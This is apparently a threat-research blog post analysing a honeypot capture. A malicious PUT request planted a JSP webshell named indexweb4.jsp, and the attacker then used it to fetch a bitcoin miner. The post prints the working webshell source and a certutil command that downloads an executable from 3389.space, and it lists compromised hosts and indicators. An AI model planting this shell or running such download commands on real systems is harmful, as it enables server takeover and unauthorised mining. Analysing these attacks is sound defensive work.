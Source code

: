 ```yaml
---
title: "Just Try to PUT a Bitcoin Miner"
#author: "Author Name"
description: "Summary of research into malicious PUT request dropping a indexweb4.jsp JSP foothold tool, followed by GET requests using the tool to drop a bitcoin miner."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-11-18T00:00:00-00:00
draft: false
---
```


Glastopf, the web server honeypot, received a couple generic probe attempts from 27.210.190.226, then immediately received a PUT request for "/indexweb4.jsp/" ([Virustotal report](https://www.virustotal.com/#/file/4069fc08a2e40321b778b0627a1f9bc6e0d36922882c6aa97111acd93663a42e)).

```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%>
<%!public static String excuteCmd(String c) 
{
    StringBuilder line = new StringBuilder();
try 
{
    Process pro = Runtime.getRuntime().exec(c);
    BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));
    String temp = null;
    while ((temp = buf.readLine()) != null) 
    {
        line.append(temp+"\\n");
    }
    buf.close();
} 
catch (Exception e) 
{
    line.append(e.getMessage());
}
return line.toString();
}
%>
<%
if("bala123".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd")))
{
    out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");
}
else
{
    out.println(":-)");
}
%>
```

Shortly afterwards, Glastopf registered a request to that JSP file:

```
/indexweb4.jsp?cmd=cmd.exe%20/c%20certutil.exe%20-urlcache%20-split%20-f%20hxxp://3389.space/nw/vm.exe%20c:/windows/inf/sst.exe&pwd=bala123
```

This would [abuse certutil.exe](https://isc.sans.edu/forums/diary/A+Suspicious+Use+of+certutilexe/23517/) to download an arbitrary file, in this case [vm.exe](https://www.virustotal.com/#/file/aae9e8d1ad38d6b0a5b1641004854cf20e4ff425b2aa5a182f8f66f27b746e95) from 3389.space.  Certutil is a Windows utility designed to help manage certificates, but it's great at downloading files in a proxy-aware way.  Virus Total reports that vm.exe is a bitcoin miner.

Back in May, [@sec\_chick reported](https://twitter.com/one_chick_sec/status/1001494150720581632) this behavior.  At that time, @sec\_chick reports that it was downloading a different EXE, [another bitcoin minter](https://www.virustotal.com/#/file/ed987ec9122a76f7eae969197717b59774836d32e91bb27902e4f665c9c91aea).

Sites that seem to have been infected (search `776 indexweb4.jsp`):

* hxxp://www.tongshengdianli.com/
* hxxp://74.208.15.120/
* hxxp://221.10.166.177/
* hxxp://114.255.185.211/

74.208.15.120 is in rough shape.  Someone who has used this same tool to exploit it has dropped a [webshell](hxxps://github.com/xl7dev/WebShell/blob/master/Aspx/hec.aspx) in there in the top directory, along with a couple of pieces of malware titled [pr.exe](https://www.virustotal.com/#/file/e8d2a3eefb3739a59b0ea040badb413ac00b2392b7814b520e3fcc12a42cecab/detection) and [cmd.exe](https://www.virustotal.com/#/file/52050870ab2816934503d5982239f1fa7fa3e106a906f4c375837b496d50b32c/detection).

Similarly, 221.10.166.177 has a ton of material dumped there by someone experimenting.  Notably `qdww5004.txt`, which looks to be a webshell or similar, related to `cnhonkerarmy`.  114.255.185.211 has become someone's repository of terrible executables, Chrome warns about it upon visiting.  

Google finds other sites that seem to be affected, or previously affected.  A surprising number redirect to hxxps://www.cjb.net/ now...

3389.space is a domain associated with other malicious campaigns:

* [New Jenkins Campaign Hides Malware, Kills Competing Crypto-Miners](https://www.f5.com/labs/articles/threat-intelligence/new-jenkins-campaign-hides-malware--kills-competing-crypto-miner")
* [Talos report related to 3389.space, similar to the above, but slightly broader](https://blog.talosintelligence.com/2018/08/rocke-champion-of-monero-miners.html)
* [A report on ss.exe, served from the domain](https://www.joesandbox.com/analysis/58636/0/executive)

Other reports of similar "indexweb4.jsp" abuse:

* https://www.abuseipdb.com/check/112.226.252.84
* https://k-anz.hatenablog.com/entry/2018/07/15/102648 - someone who ended up writing a very similar article, back in September
